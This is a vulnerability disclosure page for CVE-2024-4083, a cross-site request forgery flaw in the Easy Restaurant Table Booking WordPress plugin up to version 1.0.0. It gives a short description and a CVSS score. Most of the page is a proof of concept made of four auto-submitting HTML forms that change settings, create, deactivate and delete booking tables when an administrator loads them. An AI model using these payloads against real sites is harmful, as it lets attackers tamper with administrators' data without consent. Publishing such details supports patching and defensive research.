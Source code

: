 ```yaml
---
layout: page
title: CVE-2024-4083
subtitle: Easy Restaurant Table Booking <= 1.0.0 - Cross-Site Request Forgery
---
```

## Description
The Easy Restaurant Table Booking plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.0.0. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium)  - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.0

## PoC :
```
<html>
  <!-- eneriiiiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=tbl-settings" method="POST">
      <input type="hidden" name="savesetting" value="1" />
      <input type="hidden" name="hours" value="09" />
      <input type="hidden" name="mintus" value="30" />
      <input type="hidden" name="ampm" value="am" />
      <input type="hidden" name="hours1" value="09" />
      <input type="hidden" name="mintus1" value="30" />
      <input type="hidden" name="ampm1" value="pm" />
      <input type="hidden" name="time&#95;intval" value="30" />
      <input type="hidden" name="auto&#95;confirm" value="on" />
      <input type="hidden" name="success&#95;msg" value="eneri" />
      <input type="hidden" name="date&#95;format" value="" />
      <input type="hidden" name="confirm&#95;subject" value="eneri" />
      <input type="hidden" name="confirm&#95;msg" value="eneri" />
      <input type="hidden" name="rejected&#95;sub" value="eneri" />
      <input type="hidden" name="rejected&#95;msg" value="eneri" />
      <input type="hidden" name="savesettings" value="Save&#32;Changes" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on Create table
<html>
  <!-- eneriiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=tbl-addtable" method="POST">
      <input type="hidden" name="action" value="newtable" />
      <input type="hidden" name="vc&#95;name" value="eneriiiiiiiiiiiiii" />
      <input type="hidden" name="capacity" value="666" />
      <input type="hidden" name="is&#95;active" value="1" />
      <input type="hidden" name="createtable" value="Add&#32;Table" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on Deactive table

<html>
  <!-- eneriiii<3 -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php">
      <input type="hidden" name="page" value="tbl&#45;list" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="st" value="0" />
      <input type="hidden" name="t" value="edit" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on delete table

<html>
  <!-- eneriiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php">
      <input type="hidden" name="page" value="tbl&#45;list" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="t" value="del" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/easy-table-booking/easy-restaurant-table-booking-100-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4083


